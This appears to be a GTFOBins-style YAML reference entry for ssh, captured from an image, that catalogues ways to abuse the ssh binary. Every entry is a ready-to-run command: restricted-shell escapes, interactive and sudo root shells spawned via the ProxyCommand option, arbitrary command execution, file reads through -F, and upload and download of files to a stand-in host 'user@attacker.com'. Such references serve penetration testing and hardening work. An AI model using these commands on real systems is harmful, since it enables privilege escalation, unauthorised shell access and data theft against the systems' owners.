 ```yaml
---
functions:
  execute-interactive:
    - description: Reconnecting may help bypassing restricted shells.
      code: ssh localhost $SHELL --noprofile --norc
    - description: Spawn interactive shell through ProxyCommand option.
      code: ssh -o ProxyCommand="/bin/bash -c 'exec 10<&0 11>&1 0<&2 1>&2; /bin/bash -i'" whatever.invalid
  execute-non-interactive:
    - description: The executed command output is not shown and can be redirected to a file.
      code: |
        CMD=/usr/bin/id
        ssh -o ProxyCommand="${CMD}" whatever.invalid
  sudo-enabled:
    - description: Spawn interactive root shell through ProxyCommand option.
      code: sudo ssh -o ProxyCommand="/bin/bash -c 'exec 10<&0 11>&1 0<&2 1>&2; /bin/bash -i'" whatever.invalid
    - description: The executed command output is not shown and can be redirected to a file.
      code: |
        CMD=/usr/bin/id
        sudo ssh -o ProxyCommand="${CMD}" whatever.invalid
  download:
    - description: Fetch a remote file from a SSH server.
      code: |
        HOST=user@attacker.com
        RPATH=file_to_get
        LPATH=where_to_save
        ssh $HOST "cat $RPATH" > $LPATH
  upload:
    - description: Send local file to a SSH server.
      code: |
        HOST=user@attacker.com
        RPATH=where_to_save
        LPATH=file_to_send
        ssh $HOST "cat > $RPATH" < $LPATH
  file-read:
    - description: The read file content is corrupted by error prints.
      code: |
        LFILE=file_to_read
        ssh -F $LFILE localhost
---
```

